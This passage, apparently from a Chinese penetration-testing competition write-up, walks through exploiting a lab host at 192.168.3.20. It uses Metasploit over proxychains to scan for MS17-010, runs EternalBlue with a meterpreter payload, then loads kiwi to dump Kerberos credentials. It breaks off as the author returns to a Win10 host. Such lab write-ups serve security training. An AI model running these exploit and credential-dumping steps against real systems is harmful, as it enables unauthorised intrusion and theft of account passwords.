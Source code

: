 ![image-20220618093809943627-1655869813796049.png](img/网络安全渗透赛 Local.assets/fab300839e166b986d39710881d4f278.png)

保存后启动MSF：

```
proxychains4 msfconsole
```

检查到`192.168.3.20`主机开放445端口，尝试利用永恒之蓝漏洞：

```
use auxiliary/scanner/smb/smb_ms17_010

set rhosts 192.168.3.20

run
```

![image-20220618094104856411-1655869815094034.png](img/网络安全渗透赛 Local.assets/f881aa71fcb33a0348eaae8f1d0e71b7.png)

目标疑似存在该漏洞，尝试攻击：

```
use exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/meterpreter/bind_tcp

set rhost 192.168.3.20

run
```

成功获取会话：

![image-20220618094336413991-1655869816476112.png](img/网络安全渗透赛 Local.assets/2a6304fe88a0855c120981016bd89bb7.png)

查看权限：

![image-20220618094407379088-1655869817746108.png](img/网络安全渗透赛 Local.assets/5bf950c53deea4730ec44ab250fa2bc0.png)

加载kiwi模块。

```
load kiwi
```

![image-20220618100347636543-1655869819009004.png](img/网络安全渗透赛 Local.assets/0bb28b50123ba4bc83139136f1d379c9.png)

获取主机账户密码。

```
creds_kerberos
```

![image-20220618100442595110-1655869820329532.png](img/网络安全渗透赛 Local.assets/1a3cc3103384c5b3b6353073e5a9b803.png)

回到`Win10`主机，启动远程桌面：

